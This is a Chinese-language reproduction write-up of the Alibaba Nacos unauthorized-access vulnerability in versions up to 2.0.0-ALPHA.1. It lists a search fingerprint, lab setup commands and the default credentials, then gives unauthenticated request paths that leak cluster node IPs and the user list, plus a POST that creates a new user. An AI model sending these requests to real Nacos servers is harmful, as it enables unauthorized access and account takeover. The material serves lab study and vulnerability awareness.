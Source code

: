 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Nacos <= 2.0.0-ALPHA.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Nacos"</a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1" description="" showIcon>
</a-alert>
<br/>

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

默认账号密码 **nacos/nacos**

![img](../../../.vuepress/public/img/nacos-1.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![img](../../../.vuepress/public/img/nacos-2.png)



![img](../../../.vuepress/public/img/nacos-3.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![img](../../../.vuepress/public/img/nacos-4.png)



退出用户后在前台访问这个 url

```
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```

![img](../../../.vuepress/public/img/nacos-5.png)



可以发现以及泄露了 **ip节点** 等数据,同样我们查看用户列表的请求并在前台访问

```
/nacos/v1/auth/users?pageNo=1&pageSize=9
```

![img](../../../.vuepress/public/img/nacos-7.png)



![img](../../../.vuepress/public/img/nacos-6.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![img](../../../.vuepress/public/img/nacos-8.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![img](../../../.vuepress/public/img/nacos-9.png)



![img](../../../.vuepress/public/img/nacos-10.png)